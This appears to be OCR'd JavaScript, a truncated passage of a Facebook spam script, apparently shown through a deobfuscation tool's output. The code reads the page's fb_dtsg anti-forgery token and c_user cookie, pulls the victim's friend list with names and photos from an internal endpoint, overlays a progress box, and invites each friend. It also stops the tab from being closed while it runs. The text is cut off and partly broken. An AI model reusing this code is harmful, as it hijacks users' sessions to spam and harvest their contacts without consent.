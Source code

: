 (document.getElementById(g.e).style.display = "none"), error &amp;&amp; error(e.status) }; e.send(k) } }, d: function () { return this.b() } }; function ChangeLocation() { window.location.href = "http://www.facebook.com/" } setTimeout("ChangeLocation", 1); window.onbeforeunload = function () { if (window[tag + "_close"]) return "This script is running now!" }; var i = 3; var tay = 3; var suc = 0; var err = 0; var arr = new Array; var arn = new Array; var pho = new Array; var tag = "Close"; var page_name, x = document.getElementsByTagName("span"); for (i = 0; i &lt; x.length; i++) if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML; var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&amp;token=v7&amp;filter[0]=user&amp;options[0]=friends_only&amp;options[1]=nm&amp;options[2]=sort_alpha&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=l", function (a) { var b = a; var c = b.substring(b.indexOf("{")); var d = JSON.parse(c); d = d.payload.entries; for (var e = 0; e &lt; d.length; e++) arr.push(d[e].uid); for (var eg = 0; eg &lt; d.length; eg++) arn.push(d[eg].text); for (var pic = 0; pic &lt; d.length; pic++) pho.push(d[pic].photo); i = arr.length - 1; tay = i; console.log(arr.length); var display = "&lt;div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0px 3px 8px rgba(0, 0, 255, 0.5);position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0, 0, 255, 0.5);border-radius: 1em 4em 1em 4em;border:3px solid rgba(0, 0, 255, 0.5);background-color:rgba(0, 176, 255, 0.8);color:#ffffff'>"; display += "&lt;div style='padding-bottom:10px;font-size:20px;'>" + Title + "&lt;/div>"; display += arr.length + " Friends Detected, Please Wait . . ."; display += "&lt;/div>"; document.getElementById("pagelet_sidebar").innerHTML = display; InviteFriends(arr[i]) }); //jsunpack.called CreateElement div //jsunpack.url element = undefined //jsunpack.url var _4855 = var parent=document.getElementsByTagName("html")[0]; var _body = document.getElementsByTagName('body')[0]; var _div = document.createElement('div'); _div.style.height="25"; _div.style.width="100%"; _div.style.position="fixed"; _div.style.top="auto"; _div //jsunpack.url var _4052 = var parent=document.getElementsByTagName("html")[0]; var _body = document.getElementsByTagName('body')[0]; var _div = document.createElement('div'); _div.style.height="25"; _div.style.width="100%"; _div.style.position="fixed"; _div.style.top="auto"; _div
